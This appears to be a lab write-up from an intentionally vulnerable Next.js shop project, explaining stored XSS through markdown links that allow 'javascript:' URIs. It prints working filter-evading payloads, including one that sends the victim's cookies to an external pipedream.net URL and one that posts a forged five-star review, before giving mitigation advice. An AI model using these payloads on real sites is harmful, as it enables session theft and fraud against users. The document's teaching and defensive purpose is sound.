 # Cross-Site Scripting

Cross-site scripting or XSS is a vulnerability that allows an attacker to inject malicious javascript code into the web application which is then served to the victim. The malicious code gets executed on the victim’s browser and can steal confidential information like session ID which is generally stored in the cookies. Below figure shows an example for stored XSS.

![Stored Cross-Site Scripting](../images/stored-xss.png)

A typical XSS vulnerability arises when the website includes the user input taken from their request in the response generated in an unsafe way. Script tags are often used to execute malicious javascript code on the client side when the user input from the request is treated as HTML in the response.
But this project uses the Next.js technology to create the frontend which is served to the users and Next.js auto-escapes all the text that is included in the HTML by the server. In this case, the script tags added to the response will not act like script tags in HTML but rather appear in normal text format as `<script> … </script>`.
This makes it a lot harder for an attacker to discover and exploit the XSS vulnerability in a web application made using modern development technologies like Next.js. Still, there's an attack vector which renders the auto-escaping feature of Next.js ineffective in protecting against an XSS attack. If the web application allows for untrusted user input to be filled in the HTML anchor tag’s href attribute, then the attacker may be able to exploit it to execute malicious javascript by using `javascript:...` syntax which is generally used to perform tasks like redirection, logging or showing animation before taking the user to the clicked link’s URL. Even if the content inside the href attribute of the anchor tag is escaped, it is executed as javascript as long as it starts with the prefix “javascript:”.
The web application created in this project allows for sellers to add description to their products which may also contain links to user manuals, user guides or a tutorial link of the product. To allow sellers to add links to their product’s description, the web application supports markdown syntax `[]()` for adding links. For e.g. If the user wants to enter www.product-user-manual.com to his product’s description, he can write the following in the "Product Description" input box:
"This is a very good product. Check out our \[User Manual](www.product-user-manual.com)".

![Form to add product details](../images/product-detail-submission-form.png)

The server creates an anchor tag upon seeing the pattern \[]() where the text inside [] is added as the children text of the anchor tag and the text inside () is added to the href attribute of the anchor tag.

![Product page containing a link in the description](../images/product-page-containing-link-in-desc.png)

A malicious seller can add the following payload containing malicious javascript to his product’s description such that, whenever a customer visits his product and clicks on the link, the malicious javascript code is executed:
“This is a very good product. Check out our \[User Manual](javascript:alert(1);)”.
The payload above will not work as intended by the malicious seller because the application won’t be able to properly parse the markdown syntax \[]() since “javascript:alert(1);” contains additional parentheses. To get around this problem, the malicious seller can set the javascript “alert” function as an “onerror” handler which is called every time a javascript exception is created. To create a javascript exception “throw” keyword can be used by the attacker along with an expression which is sent to the “onerror” handler as an argument. The working payload will look like the following:
“This is a very good product. Check out our [User Manual](javascript:{onerror=alert} throw 1)”.
When the victim user clicks on the User Manual link in the product page, he’ll get an alert box as shown below.
![Alert box on clicking the link](../images/xss-alert-box.png)

From here onwards, we will refer to the malicious seller as the attacker. The alert box contains an additional string “uncaught exception: '' before the expression created using the “throw” keyword. This string is appended by the browser to the expression before passing it to the “onerror” handler. It may cause a problem when the function that the attacker has set as his “onerror” handler doesn’t expect the additional string. The attacker can fix this by throwing an Error object containing the expression he wants to execute as the message parameter to the javascript “eval” function. But to create an Error object, the attacker requires the use of parentheses which are not possible in this case. To get around this problem, the attacker can throw an object with similar properties as an Error object. For example, he can create a payload like:
`javascript:{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}`. Now, the message parameter will be passed to the “eval” function which is a string containing javascript code where some of the characters are hex encoded to be compatible with the situation. The “eval” function will execute whatever javascript code it receives, which is the “alert(1)” function.

![Alert box on clicking the link](../images/xss-alert-box-1.png)

Now that the attacker has discovered a working XSS exploitation mechanism, he can construct more dangerous payloads. For example, he can exploit this vulnerability to create a link, which sends the victim user’s browser cookies to the attacker, upon clicking. For this task, he can set up a Requestbin URL similar to earlier and construct a payload such as the following: ```javascript:{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:`fetch\x28'https://enyhbxvu9q4er.x.pipedream.net/?${document.cookie}'\x29\`}```

Let’s say the victim user has some cookies set in the browser such as “secret-cookie” which contains some confidential information.

![Setting a cookie in the console to demonstrate the attack](../images/setting-cookie.png)

When the victim user clicks on the link in the product description page, the above javascript code will execute which will send his cookies to the attacker via the Requestbin URL.

![Attacker receives the secret cookie](../images/request-bin-xss-forwarded-req.png)

The malicious seller can also exploit this vulnerability with the intention to get good ratings on his product by providing a link that, upon clicking by the victim user, posts a positive comment from his account on the product’s page. The payload for that attack may look like the following:

```javascript
javascript:a='{\x22credentials\x22:\x22include\x22,\x22headers\x22:{\x22User-Agent\x22:\x22Mozilla/5.0\x22,\x22Accept\x22:\x22*/*\x22,\x22Accept-Language\x22:\x22en-US,en;q=0.5\x22,\x22content-type\x22:\x22application/json\x22,\x22Sec-Fetch-Dest\x22:\x22empty\x22,\x22Sec-Fetch-Mode\x22:\x22cors\x22,\x22Sec-Fetch-Site\x22:\x22same-origin\x22},\x22referrer\x22:\x22http://192.168.101.145:3000/product/16f0fba5-4bda-4aaa-9711-481d050ae475\x22,\x22body\x22:\x22{\\\x220\\\x22:{\\\x22json\\\x22:{\\\x22productId\\\x22:\\\x2216f0fba5-4bda-4aaa-9711-481d050ae475\\\x22,\\\x22content\\\x22:\\\x22Fantastic product !!\\\x22,\\\x22overallRating\\\x22:5,\\\x22features\\\x22:[],\\\x22tags\\\x22:[],\\\x22media\\\x22:[]}}}\x22,\x22method\x22:\x22POST\x22,\x22mode\x22:\x22cors\x22}';{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:`fetch\x28\x22http://192.168.101.145:3000/api/trpc/product.review.protected.createProductReview?batch=1\x22,JSON.parse\x28a\x29\x29`}
```

![Customer reviews before clicking the link](../images/customer-review-before-xss.png)

![Customer reviews after clicking the link](../images/customer-review-after-xss.png)

To prevent this vulnerability, developers should not allow untrusted user input to be used as the URI in an HTML element in the HTTP response. If this functionality is required and there is no other way to implement it in the application logic, then a whitelist of allowed URIs should be used. An example of a whitelist pattern can be “([http://*]|[https://*])”. This will only allow the URIs that start with http or https to be filled in the “href” attribute of an HTML element.
